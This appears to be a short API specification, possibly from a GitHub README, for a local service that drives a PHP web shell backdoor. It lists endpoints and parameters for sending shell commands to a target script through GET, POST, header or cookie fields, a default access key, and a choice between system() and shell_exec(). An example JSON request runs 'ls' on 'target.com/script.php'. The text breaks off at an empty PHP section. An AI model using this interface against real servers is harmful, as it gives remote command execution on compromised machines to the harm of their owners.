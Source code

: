 #API SPECIFICATIONS

##URL
- [POST] `http://localhost:{port}/api/shell`
- [POST] `http://localhost:{port}/api/php`

##Shell
Post data type: `JSON`

Required parameters:
- `[config][url]` (string)
- `[request][cmd]` (string)

Optional parameters:
- `[config][parameter]` (string) (default: "razboynik")
- `[config][method]` (string) ["GET", "POST", "HEADER", "COOKIE"] (default: "GET")
- `[config][key]` (string) (default: "FromRussiaWithLove<3")
- `[config][raw]` (boolean) (default: false)
- `[request][scope]` (string) (default: "")
- `[request][method]` (int) [0 => "system()", 1 => "shell_exec()"] (default: 0)

Example:
```json
{
    "config": {
        "url": "http://target.com/script.php",
        "method": "POST",
        "raw": false
    },
    "request": {
        "cmd": "ls",
        "method": 1
    }
}
```

##PHP
